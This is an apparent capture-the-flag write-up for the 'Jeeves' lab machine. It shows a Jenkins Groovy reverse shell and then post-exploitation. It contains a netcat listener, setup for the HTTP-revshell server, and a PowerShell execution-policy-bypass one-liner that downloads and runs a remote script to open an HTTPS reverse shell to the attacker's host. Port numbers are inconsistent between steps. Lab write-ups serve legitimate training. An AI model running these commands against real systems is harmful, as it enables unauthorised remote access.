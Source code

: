 On the attacker host, open a listener :

```shell
nc -lvnp 4444
```

On jeeves, execute the groovy revshell code.

Result:

```text
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.63.
Ncat: Connection from 10.10.10.63:49678.
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>
```

A shell is open on the target.

## Post-Exploitation

In order to get an improved shell, we will use [HTTP-revshell](https://github.com/3v4Si0N/HTTP-revshell)

After setting up the items, what we will do :

1. from the actual reverse-shell, download the 'HTTP-revshell' agent on updog (on attacker box, port 9000), and excute it
2. the agent will connect on 'HTTP-revshell' on attacker box on port 443 on a HTTPs channel

On the attacker box, start the listener/server to listen on port 443 (HTTPs) :

```shell
git clone https://github.com/3v4Si0N/HTTP-revshell.git
cd HTTP-revshell
virtualenv -p python3 .venv
. .venv/bin/activate
pip3 install -r requirements.txt
python3 ./server.py --ssl 0.0.0.0 443
```

Also, start `updog` to get an HTTP server (listening on port 9000):

```shell
cd HTTP-revshell
updog
```

On jeeves shell, download HTTP-revshell client and execute it :

```shell
powershell -ep bypass "iwr -uri http://10.10.14.8:9090/Invoke-WebRev.ps1 -Outfile Invoke-WebRev.ps1; Import-Module .\Invoke-WebRev.ps1 ; Invoke-WebRev -ip 10.10.14.8 -port 443 -ssl"
```
